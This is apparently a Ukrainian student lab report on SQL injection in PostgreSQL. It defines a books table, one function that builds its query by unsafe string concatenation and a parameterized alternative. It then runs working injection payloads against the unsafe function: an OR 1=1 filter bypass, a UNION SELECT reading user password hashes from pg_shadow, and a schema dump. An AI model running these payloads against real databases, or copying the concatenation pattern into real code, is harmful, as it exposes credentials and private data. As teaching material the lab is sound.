 ## 2.2.1 Створити функцію get_data по отриманню рядків таблиці на основі SQL-запиту з використанням атрибуту строкового типу, наприклад: SELECT * FROM ТАБЛИЦЯ WHERE АТРИБУТ = 'ЗНАЧЕННЯ'


### Створення таблиці даних: 

CREATE TABLE books (<br>
  book_id INT NOT NULL,<br>
  book_name VARCHAR(30) NOT NULL,<br>
publisher VARCHAR(30) NOT NULL,<br>
  PRIMARY KEY (book_id),<br>
  UNIQUE (book_name)<br>
);<br>

INSERT INTO books <br>
    (book_id, book_name, publisher) <br>
VALUES <br>
    (1, 'Buratino', 'Penguin'),<br>
    (2,'Chipollino', 'Lion'),<br>
    (3,'Odyssey', 'Crocodile');<br>


![8_1](https://user-images.githubusercontent.com/120367818/213988191-0f3aff42-625a-43d6-a617-55b8e5488f24.png)

### Приклад 1 SQL-запиту із поодинокою шаблонною змінною 

CREATE OR REPLACE FUNCTION get_books_by_name1(b_name VARCHAR)<br>
RETURNS TABLE<br>
(book_id INTEGER, book_name VARCHAR, publisher VARCHAR)<br>
AS $$<br>
DECLARE str VARCHAR;<br>
BEGIN 	str := 'SELECT * <br>
from books <br>
where book_name = ''' ||b_name|| ''''; <br>
RAISE NOTICE 'Query=%',str; <br>
RETURN QUERY EXECUTE str; <br>
END; <br>
$$ LANGUAGE plpgsql;<br>

![8_2](https://user-images.githubusercontent.com/120367818/213988480-a0f66955-2c83-464b-af72-e91434d0795c.png)


### Перевірка: 

select * from get_books_by_name1('Buratino');

![8_3](https://user-images.githubusercontent.com/120367818/213988713-347d07dd-0df2-42c3-9ab2-e0887fe6956b.png)


### Приклад 2 SQL-запиту із поодинокою шаблонною змінною

CREATE FUNCTION get_books_by_name2(book_name  text) <br>
RETURNS SETOF books AS $$ <br>
SELECT * from books where book_name  = $1; <br>
$$ LANGUAGE SQL; <br>

![8_4](https://user-images.githubusercontent.com/120367818/213988901-1aefa00d-248c-420e-be7f-a405b33cdc29.png)

select * from get_books_by_name2('Buratino');

![8_5](https://user-images.githubusercontent.com/120367818/213989734-3d220896-f52e-45c8-9e56-fa9ea2f09a5a.png)

## 2.2.2 Створити виклики функції з SQL-ін'єкціями по порушенню конфіденційності даних, приклади яких представлені в теоретичних відомостях.

### Приклади SQL-ін'єкцій порушення конфіденційності:
− зняття фільтрації рідків умови SQL-запиту; <br>

select * from get_books_by_name1 ('1'' OR 1=1 -- ');

![8_6](https://user-images.githubusercontent.com/120367818/213990621-3d31ab16-d91b-44d2-85cb-a3866d0d11d2.png)


− отримання вмісту таблиць, що не входять у SQL-запит; <br>

select * from get_books_by_name1 ('1'' UNION SELECT CAST(USESYSID AS
INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM
PG_SHADOW -- ');

![8_7a](https://user-images.githubusercontent.com/120367818/213991358-430744fd-1bb4-4a62-b93c-be2bc5e697dd.png)


− отримання структури таблиць БД; <br>

select * from get_books_by_name1 ('1'' UNION SELECT 1, CAST(TABLE_NAME AS
VARCHAR), CAST (NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES--');

![8_8](https://user-images.githubusercontent.com/120367818/213991643-6004a4ca-d63d-4bf1-b596-cf52da495df8.png)
